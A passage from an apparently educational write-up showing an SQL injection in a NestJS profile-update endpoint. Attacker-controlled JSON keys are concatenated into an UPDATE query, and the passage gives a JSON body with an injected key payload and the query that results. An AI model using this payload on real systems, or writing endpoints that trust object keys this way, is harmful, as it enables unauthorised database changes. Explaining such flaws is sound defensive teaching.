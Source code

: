 This outputs a query where we can clearly see the SQL got added directly to the command opposed to as a parameterised value.

```
Execute:
        UPDATE profiles
        SET first_name = FOO WHERE id = $1 RETURNING * -- = $2
        WHERE id = $1
        RETURNING *

With Values:  [ "0", "" ]
```

Bingo! That's an SQL injection. We now run into the problem that we'd need to be able to edit name of the key and usually that is not possible.

## Inject Object via the API

Because our endpoint directly calls our `updateProfile` function without type validation, we can actually inject the data as JSON object directly from the API.

```ts
@Put(':id')
async updateProfile(
  @Param('id') id: string,
  @Body() updateData: UpdateProfileDto
) {
  return this.profilesService.updateProfile(id, updateData);
}
```

To call this, you have to send the new data to this endpoint:

```
POST https://domain.tld/edit/profile/<UUIDv4>
```

Here is the data to send:

```json
{
    "firstName": "Jake",
    "lastInitial": "R",
    "phoneNumber": "500-123-4567",
    "first_name = 'FOO' WHERE id = $1 RETURNING * --": "email"
}
```

Look at the end, where we can create a key that includes our SQL injection payload.

If we can send this data to the API, it will create a query like this:

```
Execute:
        UPDATE profiles
        SET first_name = FOO WHERE id = $1 RETURNING * -- = $2
        WHERE id = $1
        RETURNING *

With Values:  [ "0", "foo" ]
```

